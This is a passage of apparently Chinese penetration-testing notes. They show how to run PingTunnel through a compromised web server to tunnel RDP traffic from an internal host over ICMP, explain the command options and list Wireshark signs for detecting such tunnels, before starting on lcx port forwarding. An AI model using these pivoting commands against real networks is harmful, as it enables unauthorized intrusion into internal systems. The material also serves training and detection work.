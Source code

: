 ```bash
sudo apt-get install flex bison
#好了之后再安装一遍
./configure
make && make install
# 查看帮助信息
man pcap


## 使用方法
#4.运行PingTunnel(现在是linux上使用，也可在win上使用，只不过需要在内网的win服务器安装wincap类库)
# 跳板机器(假设是已获取到的web服务器)：
ptunnel -x shuteer111
# VPS上：
ptunnel -p <跳板_IP> -lp 1080 -da <另一新目标_IP> -dp 3389 -x shuteer111
# 含义：在访问本地的1080端口时，会把数据库服务器(新目标)的3389数据封装在icmp隧道中，以web服务器为'ICMP隧道跳板'进行传送(窗口会显示是本地的ip，但是实际是另一台数据库服务器的)

#5.在攻击机器访问本地的1080端口，成功访问到另一台数据库服务器的3389端口

```
参数说明：
```bash
-x    # 指定icmp隧道连接验证密码
-p    # 指定icmp隧道另一端机器(跳板)的ip地址
-lp   # 指定要监听的本地tcp端口

-da   # 指定要转发的机器的ip地址
-dp   # 指定要转发的机器的tcp端口
```


**其他工具**


###### 防御方法

通过Wireshark进行ICMP数据包分析，如下：
- 检查同一来源的ICMP数据包的数量。一个正常的ping命令每秒最多发送两个数据包，而使用ICMP隧道的浏览器会在很短的时间内产生上千个ICMP数据包
- 注意那些Payload大于64bit的ICMP数据包
- 寻找响应数据包的Payload与请求数据包中的Payload不一致的ICMP数据包
- 检查ICMP数据包的协议标签。例如：icmptunnel会在所有的ICMP Payload前面添加"TUNL"标记来标识隧道 -> 这就是特征


## <font color=red> 传输层隧道技术</font>
传输层技术包括：TCP隧道、UDP隧道、常规端口转发等

若内网防火墙阻止了指定端口的访问，在获得目标主机权限后，可以使用iptables打开指定端口

#### 1.lcx端口转发
两个版本：
- Linux 版本：`portmap`
- Widows版本：`lcx.exe`

一个客户端一个服务端
